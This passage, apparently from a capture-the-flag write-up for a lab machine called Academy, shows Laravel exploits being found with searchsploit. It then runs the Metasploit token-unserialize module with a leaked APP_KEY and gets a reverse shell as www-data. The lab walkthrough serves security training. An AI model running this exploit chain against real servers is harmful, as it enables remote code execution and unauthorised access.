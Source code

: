 ![Academy staging environment](/media/2020.xx/academy_03.png)

We see in the disclosed path that the staging environment use
the [laravel framework](https://laravel.com/) which as a few public exploit one
of them allowing for remote command execution.

    :::text
    kali@kali:~$ searchsploit laravel
    -------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                            |  Path
    -------------------------------------------------------------------------- ---------------------------------
    Laravel - 'Hash::make()' Password Truncation Security                     | multiple/remote/39318.txt
    Laravel Log Viewer < 0.13.0 - Local File Download                         | php/webapps/44343.py
    PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote  | linux/remote/47129.rb
    UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read                 | php/webapps/48166.txt
    UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary File Upload        | php/webapps/46389.py
    -------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

The unserialization exploit is a metasploit one. So we fire up `msf`, load the
exploit and configure the options to use the API key (disclosed on the debug
page) and our virtual host. Then we run the exploit and get a shell as
`www-data`.

    :::text
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > show options

    Module options (exploit/unix/http/laravel_token_unserialize_exec):

      Name       Current Setting                               Required  Description
      ----       ---------------                               --------  -----------
      APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
      Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.129.39.166                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      80                                            yes       The target port (TCP)
      SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                                             yes       Path to target webapp
      VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


    msf5 exploit(unix/http/laravel_token_unserialize_exec) > run

    [*] Started reverse TCP handler on 10.10.14.20:4444
    [*] Command shell session 3 opened (10.10.14.20:4444 -> 10.129.39.166:36996) at 2020-11-11 04:11:10 -0500

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
